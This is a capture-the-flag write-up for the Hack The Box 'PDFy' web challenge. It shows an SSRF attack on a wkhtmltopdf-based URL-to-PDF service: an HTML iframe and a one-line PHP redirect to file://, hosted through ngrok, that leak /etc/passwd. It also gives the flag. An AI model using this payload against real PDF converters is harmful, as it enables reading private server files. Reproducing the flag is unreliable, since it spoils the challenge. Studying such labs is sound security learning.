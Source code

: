 # PDFy
> Challenge: [PDFy](https://app.hackthebox.com/challenges/PDFy)
> 
> **CHALLENGE DESCRIPTION**
> 
> Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the way we save and cherish web content! NOTE: Leak /etc/passwd to get the flag!

## Summary

## Solution
Firstly, when I saw that the application received url input, I tried payload `file:///etc/passwd` but it didn't work.

![img.png](img.png)

Then, I decided to model the function of this application

![img_1.png](img_1.png)

Request-response are captured in Burp Proxy

![img_2.png](img_2.png)

We can realize that after we put a valid url into the application, a PDF document is generated. In details, these PDF files are saved in `/static/pdfs`

![img_3.png](img_3.png)

I also tried to traverse path in this folder with `wfuzz` but it didn't work too.

That I tried to explore the framework used in converting HTML to PDF with some forensics:
+ In the application's log
    
![img_4.png](img_4.png)
+ I also searched in Gemini about frameworks in HTML to PDF and confirm that `wkhtmltopdf` is used in this application
+ This framework has some vulnerabilities :)))) https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/#exploitation

Now I will host a PHP server and public it with `ngrok`. Create `index.html` and `index.php` in current folder
+ `index.html`
```html
<!DOCTYPE html>
<body>
<iframe src="http://<ngrok_ip>:<port>/index.php?x=/etc/passwd" 
              style="height:1000px;width:1000px"></iframe>
</body>
</html>
```
+ `index.php`
```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```
Host the server: `$ php -S 127.0.0.1:5555`

Public with `ngrok`: `$ ngrok tcp 5555`

**Payload:**`http://<ngrok_ip>:<port>/index.html`

Put it into the application 
![img_5.png](img_5.png)

**Flag:** `HTB{pdF_g3n3r4t1on_g03s_brrr!}`



